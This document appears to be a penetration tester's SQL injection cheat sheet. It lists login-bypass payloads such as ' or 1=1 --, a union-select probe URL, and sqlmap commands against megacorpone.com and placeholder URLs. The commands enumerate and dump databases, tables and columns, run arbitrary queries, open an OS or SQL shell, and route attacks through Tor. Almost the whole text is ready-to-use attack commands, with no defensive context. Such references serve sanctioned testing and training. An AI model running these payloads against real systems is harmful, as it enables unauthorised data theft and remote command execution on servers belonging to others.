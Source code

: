 Testing for Bypasses: 

' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -

# SQLMAP

## Enumerate databases
`sqlmap --dbms=mysql -u "$URL" --dbs`

## Enumerate tables
`sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables`

## Dump table data
`sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump`

## Dump Columns
`sqlmap --dbms=mysql -u https://megacorpone.com -D "DATABASE" -T "TABLE" -C "COLUMN" --dump`

## List Columns
`sqlmap --dbms=mysql -u https://megacorpone.com -D "DATABASE" -T "TABLE" --columns`

## Specify parameter to exploit
`sqlmap --dbms=mysql -u "http://www.megacorpone.com/param1=value1&param2=value2" --dbs -p param2`

##  Specify parameter to exploit in 'nice' URIs
`sqlmap --dbms=mysql -u "http://www.megacorpone.com/param1/value1*/param2/value2" --dbs # exploits param1`

## Get OS shell
`sqlmap --dbms=mysql -u "$URL" --os-shell`

## Get SQL shell
`sqlmap --dbms=mysql -u "$URL" --sql-shell`

## SQL query
`sqlmap --dbms=mysql -u https://megacorpone.com -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"`

## Use Tor Socks5 proxy
`sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u https://megacorpone.com --dbs`

## Using SQLMAP with basic authentication or NTLM
`sqlmap -u "http://megacorpone.com/" -s-data=param1=value1&param2=value2 -p param1 --auth-type=[basic/ntlm] --auth-cred=username:password`

# SQLI

Testing for a row: 
`http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8`

# Resources: 
- http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html
- https://cheatography.com/dormidera/cheat-sheets/oracle-sql-injection/
- https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet